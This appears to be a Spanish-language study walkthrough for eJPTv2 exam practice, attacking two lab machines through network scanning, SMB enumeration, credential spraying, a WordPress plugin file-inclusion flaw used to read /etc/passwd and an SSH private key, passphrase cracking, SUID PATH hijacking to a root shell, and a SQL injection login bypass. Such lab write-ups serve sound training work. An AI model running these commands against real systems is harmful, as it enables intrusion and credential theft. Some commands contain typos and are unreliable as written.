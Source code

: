 # Laboratorio de preparación eJPTv2 | Simulación de examen

{% embed url="https://youtu.be/v20IsEd5nUU?si=5v8wrsLm_pxpzXXj" %}

## Enumeración de red - Descubrimientos de hosts y escaneo de puertos

```bash
ip a
nmap -sn 10.0.2.0/24 #manda paquetes ICMP a ese segmento de red
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.43,45,46,53,55 -oN tcp_scan.txt
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
nmap --open -p135,139,22,25,45,445,49665,49670,80 -sC -sV 10.0.2.43,45,46,53,55 -Pn -On full_scan.txt
```

## Primera Máquina

Servicios vulnerables: 22,25,80,139 y 445.

Nos creamos una carpeta para la primera máquina.

```bash
mkdir 10.0.2.43
```

Entramos por el puerto 80 y vemos una imagen de un evento griego. Tampoco en el código fuente hay cosas relevantes. Hacemos por lo tanto hacemos fuerza bruta a directorios.

```
dirb http://10.0.2.43:80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Por aquí no va el ataque. Ahora nos fijaremos en SMB.

```bash
smbclient -L 10.0.2.43 -N 
```

Como no vemos que permisos tenemos sobre esos recursos usamos este comando.

```bash
smbmap -H 10.0.2.43
crackmepexec smb 10.0.2.43 -u '' -p '' --shares
enum4linux 10.0.2.43
```

Realizamos conexón con el recurso anonymous.

```bash
smbclient //10.0.2.43/anonymous -N
```

Nos descargamos el archivo y nos creamos un archivo con las contraseñas mencionadas. También podemos listar usuarios.

```bash
crackmapexec smb 10.0.2.43 -u '' -p '' --users
```

Con las credenciales.

```bash
crackmapexec smb 10.0.2.43 -u helios -p passwords.txt 
```

Esas contraseñas no son válidas para el usuario helios.

```bash
smbmap -H 10.0.2.43 -u helios -p qwerty
```

Tenemos permisos a recursos que no teníamos antes.

```bash
smbclient //10.0.2.43/helios -U helios
```

Nos descargamos los archivos. Vemos que hemos encontrado una ruta oculta. Parece un WordPress por lo que añadimos el dominio al /etc/hosts.

```bash
10.0.2.43    symfonos.local
https://symfonos.local/h3l105/wp-admin
```

> Nota: también nos puede caer Drupal /drupscan) y Joomla (joomscan).

Enumeramos para el WordPress.

```bash
wpscan --url http://symfonos.local/h3l105 #nos enumera todo hasta plugins
```

Usamos searchsploit para ver los exploits de los plugins.

```bash
searchsploit wordpress mail masta
searchsploit site editor
```

Nos sale 3 exploits de masta.

```
searchsploit -m 40290 # nos lo traemos en la atacante
```

Vemos el contenido y encontramos una ruta por la que entramos en ella y descubrimos el /etc/passwd. Vamos a convertir LFI a RCE. Atentamos a la id\_rsa de los usuarios del sistema con la ruta anterior.

```bash
=/home/helios/.ssh/id_rsa
```

Tenemos la id\_rsa pero encriptada.

```bash
ssh helios@10.0.2.43
```

Se necesita la clave pública para iniciar sesión. Copiamos la id\_rsa el contenido y proporcionamos eso al inicio de sesión.

<pre><code>chmod 600 id_rsa
<strong>ssh -i id_rsa helios@10.0.2.43
</strong></code></pre>

Extraemos los hashes de la id\_rsa.

```bash
ssh2john id_rsa > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Encontramos la passphrase.

```bash
ssh -i id_rsa helios@10.0.2.43 #poner xerox
```

Estamos dentro de la máquina víctima. Revisamos.

```bash
sudo -l
cat /etc/crontab
find / -perm -4000 -ls 2>/dev/null
```

Hay uno que nos llama la atención.

```bash
/opt/statuscheck
```

Con la herramienta strings podemos ver caracteres legibles.

```
strings /opt/statuscheck
```

Vemos que hay un curl y lo está buscando en el PATH del sistema. Vamos a hacer un PATH Hijacking.

```bash
export PATH=/tmp:$PATH #ruta principal cambiada
cd /tmp
echo '/bin/bash -p' > curl
chmod +x curl
./curl #inicia una sesión anidada
/opt/statuscheck #en el momento que encuentre curl obtendremos una bash
```

## Segunda máquina

Servicios vulnerables: 80.

No se acceden a los recursos de forma correcta y comprobamos el código fuente y descubrimos un dominio con el que lo añadimos a /etc/hosts.

```bash
10.0.2.53    doc.hmv
```

Enumeramos directorios.

```
nikto -url http://doc.hmv
```

En el panel de Login.

```
' OR==1;-- -'
```

Hacemos un captura con BurpSuite y lo guardamos en un fichero para hacer sqlmap.

```
sqlmap -r post_request
```

En el perfil podemos cambiar la imagen de perfil por lo que intentamos subir una Reverse Shell. Hacemos posteriormente un tratamiento de la TTY.

